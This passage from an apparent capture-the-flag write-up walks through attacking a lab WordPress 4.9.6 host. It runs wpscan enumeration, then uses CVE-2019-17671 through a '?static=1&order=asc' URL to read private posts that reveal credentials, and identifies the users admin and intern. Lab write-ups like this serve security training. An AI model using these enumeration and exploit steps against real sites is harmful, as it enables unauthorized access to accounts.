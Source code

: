 Default credentials don't work with this site. Since there was a Wordpress site available, we can use `wpscan` for some basic enumeration. There was loads of output, but I found this one vulnerability to be the most interesting for now.

```
$ wpscan --api-token <TOKEN> --url http://192.168.197.174/ --enumerate u,t,p
<TRUNCATED>
[+] WordPress version 4.9.6 identified (Insecure, released on 2018-05-17).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.197.174/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.6'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.197.174/, Match: 'WordPress 4.9.6'
 <TRUNCATED>
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 <TRUNCATED>
```

The rest of the exploits required some form of credentials to exploit, except for this one. To make this work, we just need to visit this site:

```
http://192.168.197.174/?static=1&order=asc
```

The web page then reveals some credentials:

<figure><img src="../../../.gitbook/assets/image (2194).png" alt=""><figcaption></figcaption></figure>

We seem to be an intern at Shiftdel, and it coincides with `wpscan` returning `intern` as a valid user:

```
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] intern
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

With these credentials, we can login to the dashboard and begin checking out the other vulnerabilities:
